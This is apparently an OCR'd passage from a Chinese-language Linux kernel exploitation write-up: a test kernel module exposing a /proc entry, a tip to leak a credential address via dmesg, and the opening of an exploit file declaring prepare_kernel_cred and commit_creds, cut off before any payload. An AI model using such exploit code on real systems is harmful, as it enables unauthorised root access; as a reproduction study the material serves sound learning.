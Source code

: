   ```c
   
  static int __init
  my_init(void)
  {
      my_file = proc_create("jif", 0, NULL, &my_fops);
   
      if (!my_file) {
          return -ENOMEM;
      }
   
      return 0;
  }
   
  static void __exit
  my_exit(void)
  {
      remove_proc_entry("jif", NULL);
  }
   
  module_init(my_init);
  module_exit(my_exit);
   
  MODULE_LICENSE("GPL");
  ```

  ```makefile
  # Makefile
  
  ```

  利用 `dmesg | grep EUID`获得`cred.euid`的地址；

## 复现过程

首先创建一个400权限的文件；

```
touch file && chmod 400 file
```

exp

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/syscall.h>
#include <sys/wait.h>
#include <errno.h>
#include <asm/unistd_64.h>
#define MAX_THREADS 19970
#define STACK_SIZE 4096
#define N 256
 
 
size_t startup_64,prepare_kernel_cred,commit_creds,offset;
 
```